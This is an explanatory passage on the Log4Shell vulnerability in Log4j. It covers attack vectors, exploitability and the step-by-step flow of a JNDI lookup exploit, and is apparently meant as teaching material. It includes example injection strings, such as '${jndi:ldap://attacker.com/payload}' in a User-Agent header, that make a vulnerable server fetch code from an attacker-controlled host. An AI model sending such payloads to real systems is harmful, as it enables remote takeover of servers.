 
### **6. Attack Vector**

#### **What it is**:

- The pathway or method attackers use to exploit a system.

#### **Role in Apache Servers**:

- Common attack vectors include:
    - User-Agent headers.
    - Input fields in web applications.
    - HTTP request parameters.

#### **How it contributes to the vulnerability**:

- Attackers inject payloads into areas logged by Log4j.
- Examples:
    - Send `${jndi:ldap://attacker.com/payload}` in the `User-Agent` header.
    - The vulnerable Log4j library processes this and triggers JNDI.

---

### **7. Exploitability**

#### **What it is**:

- Measures how easily a vulnerability can be exploited.

#### **Role in Apache Servers**:

- This vulnerability’s exploitability is extremely high because:
    - No authentication or special privileges are required.
    - Exploitation is as simple as sending data to a log.

#### **How it contributes to the vulnerability**:

- An attacker can:
    1. Identify vulnerable systems using Log4j.
    2. Send malicious requests.
    3. Gain control without even needing login credentials.

---

### **Flow of the Exploit in Log4Shell**

1. **Attack vector**:
    - The attacker sends a malicious string (`${jndi:ldap://malicious-server}`) via a logged parameter.
2. **Log4j processes the log**:
    - The string triggers a JNDI lookup.
3. **JNDI performs the lookup**:
    - Connects to the attacker’s LDAP server.
4. **LDAP server responds**:
    - Sends malicious code or a reference.
5. **Execution**:
    - Log4j executes the fetched code, granting full control to the attacker.

---


